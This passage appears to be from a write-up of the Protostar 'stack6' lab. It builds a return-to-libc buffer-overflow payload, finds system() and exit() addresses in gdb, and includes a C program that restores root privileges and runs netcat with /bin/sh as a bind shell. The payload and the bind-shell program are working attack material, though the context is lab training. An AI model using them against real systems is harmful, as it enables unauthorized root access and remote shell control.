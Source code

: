Ok, now we have all we need:

buffer: "A"*76
EBP: "BBBB"
&printf: \x90\xdf\xed\xb7
&execl: \x60\xe4\xf2\xb7
&"%3$n": \x60\xf8\xff\xbf
&"nc": \xe4\xf9\xff\xbf

Unfortunately the exploit did not work and after adjunting the buffer address and env variables with detail, it still throws a segmentation fault during the execution of the **execl** system function. After debugging it with **gdb** it looks like all the variables are set ok on our buffer and all of them point to the right functions/strings. Stepping through the code we can see that the **printf** trick works and we are moved into the **execl** with the right parameters. However we get a **segmentation fault** that I cannot explain so I decided to take a different road to get a more stable exploit. This is the last payload I tried:

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("A"*76 + "B"*4 + "\x90\xdf\xed\xb7" + "\x60\xe4\xf2\xb7" + "\x8f\xff\xff\xbf" + "\x75\xff\xff\xbf" + "\x75\xff\xff\xbf" + "\x90\xf7\xff\xbf")'` > stack6
```

Ok, so whats the new road??? I will simple call **system()** to execute a binary that will restore the setuid priviledges. Our payload should look like this:

```lang-bash line-numbers 
-------------------------------------------------------------
| buffer | BBBB | &system | &exit | &"/home/user/bindshell" |
-------------------------------------------------------------
```

We will use the following priviledges restore netcat daemon:

```lang-clike line-numbers 
#include <stdlib.h>

int main(int argc, char **argv, char **envp) {
	// These two are necessary, as system() drops privileges
    setuid(0);
    setgid(0);
    char *args[] = {  "nc", "-nvlp 4444", "-e/bin/sh", (char *) 0 };
    execve("/bin/nc", args, envp);
}
```

Ok, now lets go for **system()** and **exit()** addresses:

```lang-bash line-numbers 
user@protostar:~$ gdb -q /opt/protostar/bin/stack6
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) run
Starting program: /opt/protostar/bin/stack6

Breakpoint 1, main (argc=1, argv=0xbffff804) at stack6/stack6.c:27
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```
